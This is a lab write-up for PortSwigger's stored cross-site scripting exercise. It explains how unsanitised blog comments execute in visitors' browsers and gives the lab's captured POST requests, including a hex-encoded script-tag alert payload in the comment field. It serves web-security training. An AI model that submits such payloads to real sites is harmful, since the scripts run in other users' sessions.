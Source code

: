 # Stored XSS into HTML context with nothing encoded

[Lab in PortSwigger](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)

## Definition
Stored cross-site scripting (also known as second-order or persistent XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way.

Suppose a website allows users to submit comments on blog posts, which are displayed to other users. Users submit comments using an HTTP request like the following:
```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net
```

After this comment has been submitted, any user who visits the blog post will receive the following within the application's response:
```html
<p>This post was extremely helpful.</p>
```

Assuming the application doesn't perform any other processing of the data, an attacker can submit a malicious comment like this:
```html
<script>/* Bad stuff here... */</script>
```

Within the attacker's request, this comment would be URL-encoded as:
```
comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E
```

Any user who visits the blog post will now receive the following within the application's response:
```html
<p><script>/* Bad stuff here... */</script></p>
```

The script supplied by the attacker will then execute in the victim user's browser, in the context of their session with the application. 

## Notes
This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the alert function when the blog post is viewed. 

**Post Comment Request**
```http
POST /post/comment HTTP/1.1
Host: 0ad4001d044971e7c0bf3d1700d7004a.web-security-academy.net
...
Connection: close

csrf=VN3ztoFHeNtLwN8OCLz1s9r2T0BFUcWt&postId=8&comment=comment&name=John+Doe&email=dummy%40mail.com&website=http%3A%2F%2Fwww.bleh.com
```

**XSS Request Payload**
```http
POST /post/comment HTTP/1.1
Host: 0ad4001d044971e7c0bf3d1700d7004a.web-security-academy.net
...
Connection: close

csrf=VN3ztoFHeNtLwN8OCLz1s9r2T0BFUcWt&postId=8&comment=%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3b%3c%2f%73%63%72%69%70%74%3e&name=John+Doe&email=dummy%40mail.com&website=http%3A%2F%2Fwww.bleh.com
```

## Key Words
> xss, stored